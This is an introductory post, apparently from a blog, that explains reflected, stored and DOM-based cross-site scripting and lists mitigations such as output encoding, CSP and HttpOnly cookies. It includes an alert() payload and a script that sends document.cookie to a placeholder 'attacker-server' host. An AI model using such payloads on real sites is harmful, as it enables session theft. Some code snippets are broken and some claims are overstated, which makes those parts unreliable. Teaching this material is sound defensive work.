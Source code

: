 ```yaml
---
title: Cross-site Scripting - known as XSS
date: 2021-06-01 18:28:16
tags: [XSS, Cross-site Scripting, Web Security]
banner_img: https://tva1.sinaimg.cn/large/0060lm7Tly1ftg6omusg9j31hc0u010h.jpg
index_img: https://tva1.sinaimg.cn/large/0060lm7Tly1ftg6omusg9j31hc0u010h.jpg
categories: Frontend Security
---
```


## 1. Introduction

Cross-site scripting is an attack where some software applications take user's input in an insecure way. This happens via search fields in the web page, survey forms, cookies and other online web forms.

## 2. Reflected XSS

1. The website's results contain malicious scripts.

2. when attacker gives your web application JavaScript tags on input.

   ```html
   <script type="text/javascript">
     alert('Possible XSS');
   </script>
   ```

3. When the above script is returned to the user, browser will execute it, and I can be as simple as crafting a link and inducing a user to click it, which could cause much more dangerous.

## 3. Stored XSS

1. The malicious data is stored permanently on a database and is later accessed and run by the victims without having any knowledge of the attack. The classic example of stored XSS is a malicious scripted inserted by an attacker in a comment field on a blog, Social media, or in a forum post.

2. The script below attempts to load an image from the attacker's server with the victim's cookie data within the request URL.

   ```html
   <script>
     var+img=new+image();img.src='http://attacker-server/'+document.cookie;
   </script>
   ```

3. After a request for the image has taken place the attacker can extract the victim's session identifier from the webserver log files.
4. the most famous stored XSS bug was Samy worm which killed Myspace!!

## 4. DOM XSS

1. DOM stands for Document Object Model of the page.

2. The script below is an example. DOM based XSS where in attacker's payload is executed as a result of modifying the DOM 'environment' in the victims' browser used by the original client-side script so that the client side code runs in an unexpected manner.

   ```html
   <script>
     document.write("<b>Current URL</b>" : " document.baseURL);
   </script>
   ```

## 5. Mitigation of XSS

### Input validation

- We can take parameter from URL or data from text and limit the user Input by using known blacklist. It is difficult to add because everyday hackers coming up with different Polyglots.

#### Output encoding

- It is changing input so that it cannot be interpreted as code
- Some HTML encoding rules:
  - ", &, <, >
- URL encoding/ percent encoding

#### Enable CSP

- Content Security Policy is set by application server to the browser's policy
- Set CSP via HTTP header by the web server

#### Use HTTP only Flag

- set http-only via Set-Cookie HTTP response header

## 6. Some site for learning CSS

1. Google XSS Game
2. DVWA
3. Burp Academy
4. Pen-tester Lab

